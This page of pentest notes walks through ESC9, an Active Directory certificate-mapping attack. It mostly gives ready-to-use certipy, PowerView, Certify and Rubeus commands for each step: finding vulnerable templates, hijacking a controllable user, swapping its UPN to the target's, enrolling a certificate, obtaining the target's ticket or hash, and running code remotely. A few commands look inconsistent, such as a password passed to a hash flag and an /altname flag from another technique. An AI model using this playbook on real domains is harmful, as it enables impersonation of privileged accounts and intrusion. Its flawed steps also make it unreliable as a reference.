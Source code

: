 # ESC9—Certificate Mapping via NoSecurityExtension (CT_FLAG_NO_SECURITY_EXTENSION)

## Theory

> [!Overview] Title
> If an enrollable, client-auth template sets `CT_FLAG_NO_SECURITY_EXTENSION` in `msPKI-Enrollment-Flag`, the CA omits the `szOID_NTDS_CA_SECURITY_EXT`. This bypasses strong certificate-to-account binding even when `StrongCertificateBindingEnforcement=1`, causing mapping to fall back to UPN-only. An attacker with the ability to modify a user’s UPN can set a controlled user’s UPN to the target’s UPN, enroll a cert from the vulnerable template, and receive a cert that maps to the target account.

## Requirements

- `StrongCertificateBindingEnforcement != 2` (default is `1`) **or** `CertificateMappingMethods` includes UPN (`0x4`).
- Vulnerable template has **NoSecurityExtension** (`CT_FLAG_NO_SECURITY_EXTENSION`) and **Client Authentication** EKU.
- Attacker has **GenericWrite/GenericAll** over a user **<CONTROLLED_USER>** to modify its UPN (or reset its password).
- Ability to enroll in the vulnerable template.
 
---

## Linux

### Enumerate

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
# Look for: Enrollment Flag includes NoSecurityExtension, EKU includes Client Authentication
```

Verify rights over a controllable user:

- With Impacket/PowerView from Linux, or use `dacledit.py` (if available) to confirm `GenericWrite/GenericAll` on `<CONTROLLED_USER>`.

```bash
dacledit.py -action read -dc-ip <DC_IP> '<DOMAIN>/<USER>:<PASS>' -principal <USER> -target <TARGET_USER>
```

### Step 1—Gain/use Credentials for <CONTROLLED_USER>

- Either know `<CONTROLLED_USER>`’s creds/hash or set a password / add shadow credentials.

Example (shadow credentials approach):

```bash
certipy shadow auto -u '<USER>@<DOMAIN>' -p '<PASS>' -account <CONTROLLED_USER>
# Produces a TGT/NT hash for <CONTROLLED_USER> without changing their password
```

### Step 2—Set <CONTROLLED_USER> UPN to the target’s UPN

```bash
certipy account update -u '<USER>@<DOMAIN>' -p '<PASS>' \
  -user <CONTROLLED_USER> -upn '<TARGET_UPN>'
```

### Step 3—Request Cert from Vulnerable Template as <CONTROLLED_USER>

(If using NT hash from shadow creds, use `-hashes <NTLM_HASH>` instead of `-p`.)

```bash
certipy req -u '<CONTROLLED_USER>@<DOMAIN>' \
  -hashes '<CONTROLLED_USER_PASSWORD>' \
  -dc-ip <DC_IP> -ca '<CA_NAME>' -template '<TEMPLATE_NAME>' \
  -out '<PFX_FILE>'
# Expect: "Certificate has no object SID" and UPN shows <TARGET_UPN>
```


### Step 4—Revert <CONTROLLED_USER> UPN

```bash
certipy account update -u '<USER>@<DOMAIN>' -p '<PASS>' \
  -user <CONTROLLED_USER> -upn '<CONTROLLED_UPN>'
```

### Step 5—Authenticate as <TARGET_USER>

```bash
certipy auth -pfx '<PFX_FILE>' -domain '<DOMAIN>' -dc-ip <DC_IP>
# Produces <TARGET_USER>.ccache and may return NT hash
```

### Step 6—Use TGT

```bash
KRB5CCNAME=<TARGET_USER>.ccache wmiexec.py -k -no-pass <TARGET_HOST_FQDN>
```

---

## Windows

### Enumerate

```powershell
.\Certify.exe find
# Identify templates with:
#   mspki-enrollment-flag: ... NO_SECURITY_EXTENSION
#   pkiextendedkeyusage / mspki-certificate-application-policy includes Client Authentication
```

Check registry for StrongCertificateBindingEnforcement and CertificateMappingMethods (if you have admin access):

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\Kdc
# StrongCertificateBindingEnforcement must not be 0x2
reg query HKLM\System\CurrentControlSet\Control\SecurityProviders\Schannel
# CertificateMappingMethods should be 0x4
```

Find a user you control (GenericWrite/GenericAll):

```powershell
Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
Import-Module .\PowerView.ps1
$me = (Get-DomainUser -Identity '<USER>')
Get-DomainObjectAcl -LDAPFilter "(&(objectClass=user)(objectCategory=person))" -ResolveGUIDs |
  ? { ($_.ActiveDirectoryRights -contains 'GenericAll' -or $_.ActiveDirectoryRights -contains 'GenericWrite') -and $_.SecurityIdentifier -eq $me.objectsid }
```

Or use BloodHound.

### Step 1—Get or Set Creds for <CONTROLLED_USER>

```powershell
# If you have rights:
Set-DomainUserPassword -Identity <CONTROLLED_USER> -AccountPassword (ConvertTo-SecureString 'StrongPass123!' -AsPlainText -Force)
```

### Step 2—Set <CONTROLLED_USER> UPN to <TARGET_UPN>

```powershell
Set-DomainObject <CONTROLLED_USER> -Set @{'userPrincipalName'='<TARGET_UPN>'} -Verbose
```

### Step 3—Run as <CONTROLLED_USER> and Enroll (you Need a session/context as that user)

- Use RDP (`xfreerdp`), “Run as different user”, or RunasCS.

```powershell
# In a PowerShell running as <CONTROLLED_USER>:
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:<TARGET_USER> > target.pem
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in target.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out target.pfx
```

### Step 4—Revert <CONTROLLED_USER> UPN

```powershell
Set-DomainObject <CONTROLLED_USER> -Set @{'userPrincipalName'='<CONTROLLED_UPN>'}
```

### Step 5—Authenticate as <TARGET_USER>

```powershell
.\Rubeus.exe asktgt /user:<TARGET_USER> /certificate:target.pfx /getcredentials /nowrap
# => Base64 TGT and possibly NTLM
```

### Step 6—Use Ticket

```powershell
.\Rubeus.exe createnetonly /program:powershell.exe /show
.\Rubeus.exe ptt /ticket:<BASE64_TGT>
```
